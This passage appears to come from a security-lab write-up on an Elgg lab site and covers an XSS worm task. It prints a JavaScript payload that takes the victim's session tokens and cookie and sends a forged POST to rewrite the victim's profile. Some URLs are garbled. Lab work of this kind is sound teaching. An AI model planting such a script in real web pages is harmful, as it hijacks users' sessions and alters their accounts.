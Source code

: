 ```java
                new InputStreamReader(responseIn));
                String inputLine;
                while((inputLine = buf_inp.readLine())!=null) {
                    System.out.println(inputLine);
                    }
                }
            }
            catch (MalformedURLException e) {
                e.printStackTrace();
            }
        }
    }
}
```

---

## Task 5 : Writing an XSS worm
- coding a worm which can change the information of an account in the web app.
  - This requires the analysis of changing the 'about me' section in the web app.
- The attacker user11 uses the other account samy to update the 'about me' section to study the process.
- The 'inspect element' reveals that the process is a `POST request` which requires few parameters from the document.
  - These parameters are specific to the session and the user,
  - therefore, searching the parameters in the document

The javascript code must contain
- the `post request` required to proceed
- with the changing of the text in the 'about me' section.
- this will not affect others who view this profile.

```js
<script type="text/javascript">
var sendurl="http网址www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;

ff=new XMLHttpRequest();

ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie", document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

//                             http网址www.xsslabelgg.com/profile/         user14                  /edit
ff.setRequestHeader("Referer","http网址www.xsslabelgg.com/profile/"+elgg.session.user["username"]+"/edit");

//      __elgg_ts=AAAA  &__elgg_token=BBBB     &description=User-11-is-great   &name=user14  &accesslevel[description]=2  &guid=user14Id0000001
params="__elgg_ts="+ts+"&__elgg_token="+token+"&description=User-11-is-great"+"&name="+elgg.session.user["username"]+"&accesslevel[description]=2&guid="+elgg.session.user["guid"];

ff.send(params);
```
